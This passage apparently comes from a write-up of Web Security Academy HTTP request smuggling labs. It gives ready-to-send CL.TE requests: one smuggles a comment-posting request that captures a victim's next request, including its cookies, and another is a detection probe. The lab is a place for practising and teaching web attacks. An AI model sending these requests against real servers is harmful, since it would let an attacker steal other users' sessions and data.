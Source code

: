 If 404 not found is returned, then the CL. TE vulnerability is confirmed. 

##### Attack Request

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 344
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Cookie: session=Y59dcCS8DM6ZRiAKpzhkYkwxgIVN2Z3P
Content-Type: application/x-www-form-urlencoded
Content-Length: 950

csrf=Fjer3jYMxu2fSkFkzeHTWt9khhOhJbyV&postId=7&name=foobar&email=foobar%40bar.com&website=https%3A%2F%2Fbar.com&comment=foo
```

##### Victim Request

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 745

foo=bar
with many \r\n spaces here
```

### Exploiting HTTP request smuggling to deliver reflected XSS

#### Detect CL. TE Vulnerability

```html
POST / HTTP/1.1
Host: 0a0d00b303c593ec80de623100a1002d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

3
abc
X

```

In case it is timed out, it means that it's likely vulnerable.
